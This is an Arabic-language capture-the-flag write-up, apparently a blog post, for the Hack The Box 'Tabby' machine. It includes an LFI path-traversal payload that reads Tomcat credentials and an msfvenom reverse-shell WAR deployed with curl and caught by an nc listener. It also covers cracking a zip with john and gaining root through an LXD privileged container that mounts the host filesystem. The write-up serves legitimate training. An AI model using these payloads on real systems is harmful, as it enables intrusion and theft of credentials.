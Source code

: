 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/

## Sammmry :

[<img src="https://pbs.twimg.com/media/Ea4eXX0XgAUs1W1.jpg:large">](http://https://pbs.twimg.com/media/Ea4eXX0XgAUs1W1.jpg:large/)

```
linux شغالة على easy machine عبارة عن Tabby
وبعد ذلك نرفع شال tomcatتمكننا من سحب كلمة سر lfi بالفحص المبدئي نجد
الذي user نقوم بكسره ثم نستخدم كلمة السر للحصول على zip fileونبحث لنجد
ootللحصول على alpine-builderنستخدم admو lxd بدوره ينتمي الى
```

- Sammmry :
- 1 enumeration
   - 1.1 Nmap
   - 1.2 Port
- 2 lfi
   - 2.1 shell
   - 2.2 Backup.zip
   - 2.3 zip crack
   - 2.4 User.txt
- 3 privilege escalation


## 1 enumeration

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```

![Desktop View](/img/tabby/1.png)

#### نجد بورت 8080 و 80 مفتوحين  

80 : httpd

8080 :tomcat


### 1.2 Port

```
codee source اثناء تصفح بورت 80 نجد دومين في 
```
![Desktop View](/img/tabby/2.png)

```
عند فتح /etc/hostsفي domain نقوم باضافة
LFIوفحصه نجد انه مصاب بثغرة url
```
![Desktop View](/img/tabby/3.png)

```
http://10.10.10.194:8080 بعد فتح
/usr/shareتحت tomcat نكتشف ان
```
[http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)

```
: ب password نسحب
http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-
users.xml
```

## 2 lfi

![Desktop View](/img/tabby/4.png)
### 2.1 shell

#### : حصلنا على كلمة المرور نقوم ب الدخول الى السيرفر

```
shellنتبع الشرح التالي لرفع
https://gist.github.com/pete911/
.warبصيغة msfvenom ب shell نقوم بانشاء
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.
LPORT=5555 -f war > shell.war

![Desktop View](/img/tabby/5.png)

```
الخاص بنا shell نرفع
```

```
curl --user 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war
'http://10.10.10.194:8080/manager/text/deploy?path=/ts'
https://phantominfosec.wordpress.com/2020/07/08/htb-tabby-
walkthrough/
```



```
nc –lnvp 5555 نشغل
shell ثم نتصفح
```
[http://10.10.10.194:8080/ts](http://10.10.10.194:8080/ts)


![Desktop View](/img/tabby/7.png)
#### الان نحصل على اتصال
![Desktop View](/img/tabby/8.png)
### 2.2 Backup.zip

####  /var/www/html/files بعد البحث داخل السيرفر نجد في مسار    


ملف

16162020_backup.zip

```
نقوم بنقله الى جهازنا
ثم فك التشفير base64 قمت بتشفيره ب
```
Base 64 –w0 16162020_backup.zip


![Desktop View](/img/tabby/9.png)

base64 –d encoded >1.zip

### 2.3 zip crack

```
نجد انه محمي بكلمة سر unzipعند محاولة فك
```

![Desktop View](/img/tabby/11.png)

```
johnنقوم بكسرها باستخدام
```
zip2john 1.zip > out.txt
john out.txt -wordlist=rockyou.txt

```
user ashنقوم بتجريبها على admin@itنجد كلمة السر
```

![Desktop View](/img/tabby/12.png)


![Desktop View](/img/tabby/13.png)
### 2.4 User.txt

```
ash تمكنا بالدخول ب
```
![Desktop View](/img/tabby/14.png)
## 3 privilege escalation

```
عند البحث في lxdو adm ينتمي الى ash نجد ان id عند كتابة
privilege escalationجوجل نجد مقال يتحدث عن
https://www.hackingarticles.in/lxd-privilege-
escalation
```
```
alpine-builderنحمل
```
```
https://github.com/saghul/lxd-
alpine-builder.git
```
![Desktop View](/img/tabby/15.png)

```
lxc image import ./alpine-v3.12-x86_64-20201030_1631.tar.gz --alias fasto
lxc image list
```
![Desktop View](/img/tabby/r1.png)

lxd init


![Desktop View](/img/tabby/r2.png)
```
ash@tabby:~$ lxc init fasto groot -c security.privileged=true
ash@tabby:~$ lxc config device add groot mydevice disk
source=/ path=/mnt/root recursive=true
```

```
ash@tabby:~$ lxc start groot
ash@tabby:~$ lxc exec groot /bin/sh
```


![Desktop View](/img/tabby/r3.png)
```
/mnt/root/root نذهب الى root حصلنا على
flagنجد
```
![Desktop View](/img/tabby/r4.png)

